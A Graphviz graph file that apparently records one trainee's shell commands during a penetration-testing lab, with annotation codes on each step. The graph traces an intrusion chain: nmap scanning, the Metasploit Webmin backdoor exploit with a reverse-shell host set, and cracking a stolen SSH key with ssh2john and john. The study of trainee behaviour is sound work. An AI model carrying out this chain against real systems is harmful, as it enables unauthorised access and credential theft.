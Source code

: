 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 V0 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 V1 "]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	13 [label="searchsploit webmin V3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ V8 "]
	18 [label="ls A10 "]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	21 [label="search 1.920 A3 "]
	25 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	28 [label="show options  V5 "]
	29 [label="set LHOST=10.1.153.83 V6 "]
	30 [label="set LHOST 10.1.153.83 V6 "]
	31 [label="exploit V8 "]
	32 [label="show options V5 "]
	33 [label="set RHOSTS 172.18.1.5 V6 "]
	34 [label="exploit V8 "]
	35 [label="set RPORT 10000 V6 "]
	36 [label="exploit  V8 "]
	37 [label="show options  V5 "]
	38 [label="set LHOST 192.168.129.103 V6 "]
	39 [label="exploit  V8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema V1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema V1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	70 [label="nmap 172.18.1.5/24 V0 "]
	73 [label="nmap 172.18.1.5 V0 "]
	74 [label="nmap 172.18.1.5/24 V0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 V0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt V9 "]
	81 [label="ls A10 "]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt V9 "]
	85 [label="ls A10 "]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	100 [label="ls A10 "]
	102 [label="ls A10 "]
	104 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	112 [label="ls A10 "]
	114 [label="ls A10 "]
	117 [label="ls A10 "]
	120 [label="ls A10 "]
	124 [label="ls A10 "]
	126 [label="ls A10 "]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	136 [label="ls A10 "]
	138 [label="ls A10 "]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	143 [label="ls A10 "]
	146 [label="ls A10 "]
	148 [label="ls A10 "]
	150 [label="ls A10 "]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	156 [label="ls A10 "]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	162 [label="ls A10 "]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	170 [label="ls A10 "]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole V2 "]
	183 [label="use unix/webapp/webmin_backdoor V4 "]
	184 [label="show options V5 "]
	185 [label="set RHOSTS 172.18.1.5 V6 "]
	186 [label="set LHOST 10.1.135.83 V6 "]
	187 [label="set RPORT 10000 V6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	193 [label="ls A10 "]
	195 [label="ls A10 "]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	201 [label="ls A10 "]
	203 [label="ls A10 "]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	209 [label="ls A10 "]
	211 [label="ls A10 "]
	213 [label="ls A10 "]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	227 [label="ls A10 "]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	235 [label="ls A10 "]
	238 [label="sls A10 "]
	240 [label="ls A10 "]
	242 [label="ls A10 "]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	247 [label="ls A10 "]
	249 [label="ls A10 "]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	255 [label="ls A10 "]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit V8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa V12 "]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash V13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa V12 "]
	281 [label="john hash A14 "]
	283 [label="ls A10 "]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 70 [constraint=false]
	70 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 100 [constraint=false]
	100 -> 102 [constraint=false]
	102 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 114 [constraint=false]
	114 -> 117 [constraint=false]
	117 -> 120 [constraint=false]
	120 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 143 [constraint=false]
	143 -> 146 [constraint=false]
	146 -> 148 [constraint=false]
	148 -> 150 [constraint=false]
	150 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 156 [constraint=false]
	156 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 162 [constraint=false]
	162 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 193 [constraint=false]
	193 -> 195 [constraint=false]
	195 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 201 [constraint=false]
	201 -> 203 [constraint=false]
	203 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 209 [constraint=false]
	209 -> 211 [constraint=false]
	211 -> 213 [constraint=false]
	213 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 227 [constraint=false]
	227 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 235 [constraint=false]
	235 -> 238 [constraint=false]
	238 -> 240 [constraint=false]
	240 -> 242 [constraint=false]
	242 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 247 [constraint=false]
	247 -> 249 [constraint=false]
	249 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 255 [constraint=false]
	255 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 283 [constraint=false]
	283 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
